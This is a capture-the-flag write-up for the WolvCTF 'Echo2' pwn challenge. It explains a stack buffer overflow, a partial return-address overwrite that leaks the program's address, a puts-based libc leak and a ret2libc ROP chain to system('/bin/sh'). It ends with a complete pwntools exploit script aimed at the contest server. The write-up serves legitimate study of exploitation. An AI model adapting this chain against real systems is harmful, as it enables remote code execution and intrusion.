



### Advanced buffer overflow to leak and ret2libc
#### WolvCTF pwn Echo2

Leaking main's address, while ropping, then leaking libc and eventually popping a shell on the server.
<!-- more -->

This was a very fun challenge with not very many solves during the CTF. It contains an easy overflow, with no stack canary, but every other common protection is activated.We get the challenge executable, a libc and the Dockerfile.

{}

Running the executable, I didnt quite understand what was happening so I decided to analyse it in ghidra right away. There is a main function that only calls echo(). The challenge is all about creating a new echo function, and the disassembly of that function looks like this:

```c
void echo(void)
{
  undefined buffer [264];
  int size;
  undefined4 local_c;
  
  puts("Welcome to Echo2");
  local_c = __isoc99_scanf(&DAT_00102015,&size);
  fread(buffer,1,(long)size,stdin);
  printf("Echo2: %s\n",buffer);
  return;
}
```

We see that it first uses scanf to take input and place it in the size variable. It doesn't say anything to let us know it is waiting for a number, which is why it wasnt obvious without disassembling it. Double clicking DAT_00102015 in ghidra shows us it takes a decimal integer ("%d"). It then reads 1 byte at a time into the buffer for the length that we just specified. This means that we can write as much as we want, so we have a buffer overflow vulnerability. At the end it prints from the buffer until it reaches a null byte (which will come in handy soon).

Running checksec on the file reveals it has PIE (ASLR), NX and Full RELRO enabled, but no stack canary. This is consistent with what we have already found, so lets run it in gdb and see what we can overwrite. Before starting i recommend running pwninit now instead of later (to link the elf with the provided libc), to ensure that any offsets found wont have to be changed after linking.

To inspect the initial stack, we can run it in GDB specifying 5 as size, sending 4 As (plus a newline character) and inspecting the stack after breaking at the end of the echo function (I chose to break at echo+124). 



When I ran it I could find my As at **0x7fffffffdc01**, and using the `info frame` command we can see that the instruction pointer back to main is located at **0x7fffffffdd18**. Calculating the offset between these addresses tells us that we need to write 279 As before touching the instruction pointer.

Now it starts getting interesting, because with ASLR enabled we don't know what we want to overwrite rip with. I first tested what would happen when specifying a 280 character input and sending 279 As (plus a newline). The output of that looks weird as there are some seemingly random bytes at the end.


It took me a second to figure out what is happening, but it's related to what i mentioned earlier. The printf in the echo function only takes the "%s" as a format string and a pointer to the start of the string on the stack as arguments. There is no argument to limit the amount of output so it will print the longest ppossible string until it reaches a null byte. Since we are writing As all the way up until the return pointer on the stack and the return pointer probably doesnt contain any null bytes, it will include the instruction pointer in the output.

This is great, as we are able to leak the address of an instruction in the executable. We could theoretically use this to return to whatever we want in the future. However, you might have realised we have a more pressing issue. The leak happens after we send our input, and the program exits straight afterwards.

We need to figure out a way to make the program ask us for more input so we can use the leak. An ideal situation would be if we could call main again to start over, but as previously mentioned this could be quite tricky with ASLR. In situations where I don't know what to do, and there isn't much more code to read, I like to use gdb and look at what happens while the program is running. Eventually I realised that since the instruction pointer points back to main, the return address from echo will be very similar to the rest of the addresses in main. This means that we don't have to change much of the instruction pointer, we can get away with only changing the last one or two bytes.

Inspecting the process mappings in gdb confirms that our new plan could work.


The instructions and functions of the executable are all placed in different sequential chunks in memory. Where these chunks are will be random, but they will always be together and the distance between differenet addresses will be constant. When running in gdb the elf will start at **0x555555554000**. The last three hex characters will usually be 0, and this is what we can take advantage of. 

As you can see in the previous screen shot, I also printed the address of main, which was **0x555555555247**. Running `objdump -t challenge` in the terminal will give us "001247 ... main". This is the constant offset from the base of the executable, which we can confirm by calculating **0x555555554000+0x1247=0x555555555247**. 

The result of all of this is that we can predict what the last three hex characters of any instruction from the executable will be. Because two hex characters = 1 byte, We can only predict one full byte. Fortunately for us, when disassembling the main function in gdb, we can see that the first main address ends in **247** and the address of the instruction after the call to echo ends in **2b3**. This means it will be enough for us to overwrite the last byte with 0x47 and echo should return to the start of main instead of the end of main. The following python script was my way of doing this:

```py
from pwn import *

exe = ELF("./challenge")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.35.so")

context.binary = exe

p = process("./challenge")
gdb.attach(p)
#p = remote("echotwo.wolvctf-2023.kctf.cloud", 1337)

offset = 279
sending = offset + 1 

payload = b"A"*offset
payload += b"\x4c" # start of main func (after push rbp)

p.recvline()
p.sendline(str(sending + 1).encode())
p.sendline(payload)

p.interactive()
```

You can tell from the python code that sending 0x47, which is the first instruction in main didnt work. I could tell from gdb that the correct address was called, but it seg faults later when referencing gdb in a `movaps xmmword ptr [rbp - 0x600], xmm1` instruction. I have no idea what that instruction does, but it references rbp, so I looked for issues related to that. The first interesting instruction in main is `...24b <+4>: push rbp` (found in gdb) which places a new rbp on the stack. To avoid this, and keep the old one I found out we could jump to main+5 (0x4c) instead and not seg fault. 


The program welcomes us again, which means it worked! Now we need to interpret the leak we got previously to know what to send next. Adding the following code interprets and logs the leak for us.

```py
p.recvuntil(b"A"*offset)
leak = u64(p.recvline().strip().ljust(8, b"\x00"))
log.info(f"{hex(leak)=}")
```


It looks like a reasonable address, which is great! Since we know that the main address is constant compared to the base of the executable in memory, we can calculate the base and use that to find other instructions we want to call. I found a ret at +0x101a with ropper and used pwntools to find puts in plt.

```py
exe_base = leak - (exe.sym["main"] + 5)
puts_plt = exe_base + exe.plt["puts"]

main = exe_base + 0x1247
ret = exe_base + 0x101a

log.success(f"{hex(exe_base)=}")
log.info(f"{hex(puts_plt)=}")
```


Above we can see the calculated address of the base of the executable on the left and the process mappings on the right. I put them next to each other to sanity check that the logged address from out script matches the one in gdb, and it does.

Now we can use whatever instructions we want from main, after sending the same payload inside of echo to reach the instruction pointer again. At this point I would usually try to leak a libc address through the global offset table, but when running ropper on the elf, there aren't alot of instructions we can use. Most importantly there is no `pop rdi; ret` gadget which we need to control the argument to any function. We can call puts in plt with the address we have already found, but there is no way for us to place a got address in rdi.

At this point I was confused again, as I didn't know how to proceed. NX is enabled so we can't just place shellcode somewhere, and we cant overwrite any got address because of RELRO. I couldn't imagine a way to combine instructions to control the argument to puts, so without anything smarter to do I decided to check what actually was in rdi at the end of echo:



Wow, we are very "lucky". The stack address that is already in rdi points at a libc address! This means we don't have to control what is in rdi, as the funlockfile pointer will do. We can send the same payload to get to the instruction pointer and call puts before calling main again to send more input. This time we send a ret before main, so we can return to the actual start of main instead of what we did previously. The ret instructions guarantee stack alignment, and shouldn't do any harm. We add 8 times the number of 64 bits registers were sending (one for each p64) to the size we're specifying to make the program allow us to send enough bytes. U64 from pwntools can still be used to interpret the leak we get from our puts call.

```py
second_payload = b"B"*offset
second_payload += p64(ret)
second_payload += p64(puts_plt)
second_payload += p64(ret)
second_payload += p64(main)

p.recvuntil(b"Echo2")
p.sendline(str(sending + 8*4).encode())
p.sendline(second_payload)

p.recvuntil(b"B"*offset)
p.recvline()
libc_leak = u64(p.recvline().strip().ljust(8, b"\x00"))
log.info(f"{hex(libc_leak)=}")
```


The new address we are leaking still looks like it could be a libc address. We can calculate and store the base of libc by subtracting the offset between the leaked address and the base of libc. This works because, as mentioned multiple times, even though ASLR is activated, the offsets between the addresses in each memory chunk is constant. Running the script we have so far and attaching gdb (either with "gdb -p *pid*" or gdb.attach(p) in python) we can calculate that the difference between our leak and the base of libc found with `info process mappings` is 0x620d0. The following code stores and logs this.

```py
libc.address = libc_leak - 0x620d0
log.success(f"{hex(libc.address)=}")
```

You can sanity check this by running the script up until this point and matching the base adress of libc in the process mappings in gdb with the last address logged by the python script, as I showed previously with the base of the executable.

Since we called main at the end of the last ropchain, we have another input so the interesting part of the solution is behind us. We can use the base of libc address and the previous way to get to the instruction pointer to call `system("/bin/sh")`. I found a pop rdi; ret gadget in the libc at the 0x2a3e5 offset, which is used to place "/bin/sh" in rdi. The following code does what we need and looks like the end of most reet2libc challenges.

```py
libc_system = libc.sym["system"]
binsh = next(libc.search(b"/bin/sh"))
libc_exit = libc.sym["exit"]
pop_rdi = libc.address + 0x2a3e5

log.info("binsh: "+ str(hex(binsh)))
log.info("system: "+ str(hex(libc_system)))
log.info("exit: "+ str(hex(libc_exit)))
log.info("pop_rdi: "+ str(hex(pop_rdi)))

third_payload = b"B"*offset
third_payload += p64(pop_rdi)
third_payload += p64(binsh)
third_payload += p64(ret)
third_payload += p64(libc_system)
third_payload += p64(libc_exit)

p.recvuntil(b"Echo2")
p.sendline(str(sending + 8*5).encode())
p.sendline(third_payload)
```

We needed to make sure to add 8*5 to the size were sending, because we're sending 5 addresses now. When we run the full script we get a shell on the server and we can claim our flag.



## Full Exploit:
```py
from pwn import *

exe = ELF("./challenge")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.35.so")

context.binary = exe

#p = process("./challenge")
#gdb.attach(p)
p = remote("echotwo.wolvctf-2023.kctf.cloud", 1337)

offset = 279
sending = offset + 1

payload = b"A"*offset
payload += b"\x4c" # start of main func (after push rbp)

p.recvline()
p.sendline(str(sending + 1).encode())
p.sendline(payload)

p.recvuntil(b"A"*offset)
leak = u64(p.recvline().strip().ljust(8, b"\x00"))
log.info(f"{hex(leak)=}")

exe_base = leak - (exe.sym["main"] + 5)
puts_plt = exe_base + exe.plt["puts"]

main = exe_base + 0x1247
ret = exe_base + 0x101a

log.success(f"{hex(exe_base)=}")
log.info(f"{hex(puts_plt)=}")

print("===========================")

second_payload = b"B"*offset
second_payload += p64(ret)
second_payload += p64(puts_plt)
second_payload += p64(ret)
second_payload += p64(main)

p.recvuntil(b"Echo2")
p.sendline(str(sending + 8*4).encode())
p.sendline(second_payload)

p.recvuntil(b"B"*offset)
p.recvline()
libc_leak = u64(p.recvline().strip().ljust(8, b"\x00"))
log.info(f"{hex(libc_leak)=}")

libc.address = libc_leak - 0x620d0
log.success(f"{hex(libc.address)=}")

print("===========================")

libc_system = libc.sym["system"]
binsh = next(libc.search(b"/bin/sh"))
libc_exit = libc.sym["exit"]
pop_rdi = libc.address + 0x2a3e5

log.info("binsh: "+ str(hex(binsh)))
log.info("system: "+ str(hex(libc_system)))
log.info("exit: "+ str(hex(libc_exit)))
log.info("pop_rdi: "+ str(hex(pop_rdi)))

third_payload = b"B"*offset
third_payload += p64(pop_rdi)
third_payload += p64(binsh)
third_payload += p64(ret)
third_payload += p64(libc_system)
third_payload += p64(libc_exit)

p.recvuntil(b"Echo2")
p.sendline(str(sending + 8*5).encode())
p.sendline(third_payload)

p.interactive()
```


